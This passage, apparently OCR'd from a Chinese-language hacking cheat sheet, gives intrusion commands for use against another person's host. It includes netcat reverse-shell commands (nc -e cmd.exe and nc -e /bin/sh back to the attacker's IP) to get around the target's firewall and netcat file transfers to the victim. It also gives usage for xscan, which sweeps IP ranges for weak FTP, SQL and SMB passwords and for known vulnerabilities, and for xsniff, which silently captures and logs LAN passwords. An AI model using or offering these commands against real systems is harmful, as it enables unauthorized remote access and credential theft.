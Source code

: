 ```
　　在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
　　nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙
　　本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称
　　在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机
　　备 注：
　　| 管道命令
　　< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令
　　@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中
　　>与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。
　　如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。
　　八：
　　扫描工具：xscan.exe
　　基本格式
　　xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息
　　xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息
　　检测项目
　　-active 检测主机是否存活
　　-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）
　　-port 检测常用服务的端口状态
　　-ftp 检测FTP弱口令
　　-pub 检测FTP服务匿名用户写权限
　　-pop3 检测POP3-Server弱口令
　　-smtp 检测SMTP-Server漏洞
　　-sql 检测SQL-Server弱口令
　　-smb 检测NT-Server弱口令
　　-iis 检测IIS编码/解码漏洞
　　-cgi 检测CGI漏洞
　　-nasl 加载Nessus攻击脚本
　　-all 检测以上所有项目
　　其它选项
　　-i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
　　-l 显示所有网络适配器
　　-v 显示详细扫描进度
　　-p 跳过没有响应的主机
　　-o 跳过没有检测到开放端口的主机
　　-t 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
　　-log 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)
　　用法示例
　　xscan -host 192.168.1.1-192.168.255.255 -all -active -p　检测192.168.1.1-192.168.255.255网段内主机的所有漏洞，跳过无响应的主机
　　xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测192.168.1.1-192.168.255.255网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
　　xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测“hostlist.txt”文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
　　九：
　　命令行方式嗅探器: xsniff.exe
　　可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
　　参数说明
　　-tcp 输出TCP数据报
　　-udp 输出UDP数据报
　　-icmp 输出ICMP数据报
　　-pass 过滤密码信息
　　-hide 后台运行
　　-host 解析主机名
　　-addr IP地址 过滤IP地址
　　-port 端口 过滤端口
　　-log 文件名 将输出保存到文件
　　-asc 以ASCII形式输出
　　-hex 以16进制形式输出
　　用法示例
　　xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中
　　xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
```